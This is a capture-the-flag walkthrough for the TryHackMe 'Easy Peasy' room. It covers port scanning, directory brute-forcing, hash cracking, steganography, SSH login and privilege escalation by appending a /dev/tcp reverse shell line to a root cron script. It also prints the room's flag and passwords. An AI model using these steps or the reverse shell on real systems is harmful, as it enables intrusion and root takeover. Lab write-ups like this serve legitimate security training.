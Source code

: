 # Easy Peasy

**Room Link:** [https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 5698 and 65524 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



## Flag #1

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" |base64 -d
```

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

## Flag #2

**Kali**

```
curl http://$VICTIM:65524/robots.txt
```



<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



[https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

## Flag #3&#x20;

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

## Hidden Directory

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>



**CyberChef**: [https://gchq.github.io/CyberChef/#recipe=From\_Base62('0-9A-Za-z')\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1](https://gchq.github.io/CyberChef/#recipe=From\_Base62\('0-9A-Za-z'\)\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1)

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>



## Crack the Hash

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python hash-id.py 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Format turned out to be GOST

**Kali**

```
john --wordlist=easypeasy.txt --format=GOST hash.txt
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



## SSH Password

**Kali**

```
wget http://$VICTIM:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
steghide extract -sf binarycodepixabay.jpg 
Password: mypasswordforthatjob
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.rapidtables.com/convert/number/binary-to-ascii.html](https://www.rapidtables.com/convert/number/binary-to-ascii.html)

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh boring@$VICTIM:6498
Password: iconvertedmypasswordtobinary
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

## User Flag

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.dcode.fr/caesar-cipher](https://www.dcode.fr/caesar-cipher)

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Victim**

```
cat /etc/crontab
cd /var/www/
ls -lah
```

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "sh -i >& /dev/tcp/$KALI/1337 0>&1" >> .mysecretcronjob.sh
```

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>



















































